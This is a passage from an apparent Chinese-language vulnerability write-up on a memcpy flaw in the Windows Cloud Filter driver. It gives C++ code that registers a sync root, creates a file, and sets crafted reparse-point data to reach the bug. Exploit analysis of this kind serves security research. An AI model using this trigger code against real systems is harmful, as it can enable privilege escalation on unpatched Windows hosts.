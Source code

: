 - 元素 2 必须是 BYTE 类型 (0x07)  
  
- 元素 3 必须是 UINT64 类型 (0x06)  
  
- 元素 4 必须是 BITMAP 类型 (0x11)  
  
一旦满足所有这些条件，我们就能最终到达易受攻击的 memcpy！  
  
为了触发漏洞，我们首先需要使用云过滤器 API 注册一个同步根：  
```
    CF_SYNC_REGISTRATION CfSyncRegistration = { 0 };
    CfSyncRegistration.StructSize = sizeof(CF_SYNC_REGISTRATION);
    CfSyncRegistration.ProviderName = L"FFE4";
    CfSyncRegistration.ProviderVersion = L"1.0";
    CfSyncRegistration.ProviderId = { 0xf4d808a4, 0xa493, 0x4703, { 0xa8, 0xb8, 0xe2, 0x6a, 0x7, 0x7a, 0xd7, 0x3b } };

    CF_SYNC_POLICIES CfSyncPolicies = { 0 };
    CfSyncPolicies.StructSize = sizeof(CF_SYNC_POLICIES);
    CfSyncPolicies.HardLink = CF_HARDLINK_POLICY_ALLOWED;
    CfSyncPolicies.Hydration.Primary = CF_HYDRATION_POLICY_FULL;
    CfSyncPolicies.InSync = CF_INSYNC_POLICY_NONE;
    CfSyncPolicies.Population.Primary = CF_POPULATION_POLICY_PARTIAL;
    CfSyncPolicies.PlaceholderManagement = CF_PLACEHOLDER_MANAGEMENT_POLICY_UPDATE_UNRESTRICTED;

    hRet = CfRegisterSyncRoot(SyncRoot, &CfSyncRegistration, &CfSyncPolicies, CF_REGISTER_FLAG_DISABLE_ON_DEMAND_POPULATION_ON_ROOT);
    if (!SUCCEEDED(hRet)) {
        CfUnregisterSyncRoot(SyncRoot);
        cout << "CfRegisterSyncRoot failed! error=" << GetLastError() << endl;
        return -1;
    }
    printf("[+] CfRegisterSyncRoot success: 0x%lx\n", hRet);
```  
  
然后我们将在同步根目录中创建文件：  
```
    HANDLE hFile1;
    CString FullFileName1 = L"c:\\windows\\temp\\test";
    hFile1 = CreateFile(FullFileName1, GENERIC_ALL, FILE_SHARE_READ | FILE_SHARE_WRITE | FILE_SHARE_DELETE, NULL, CREATE_NEW, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile1 == INVALID_HANDLE_VALUE) {
        cout << "Open file failed! error=" << GetLastError() << endl;
        return -1;
    }
    printf("[+] Created exploit file 1: %d\n", hFile1);
```  
  
最后，我们将使用 FSCTL_SET_REPARSE_POINT_EX  
 来设置重解析点数据。  
```
    hBool = DeviceIoControl(hFile, FSCTL_SET_REPARSE_POINT_EX, &RpBufEx, (0x28+CompressedRpBufSize), NULL, 0, NULL, NULL);
    if (hBool == 0) {
        cout << "FSCTL_SET_REPARSE_POINT_EX failed! error=" << GetLastError() << endl;
        return -1;
    }
    printf("[+] FSCTL_SET_REPARSE_POINT_EX succeeded\n");
```  
  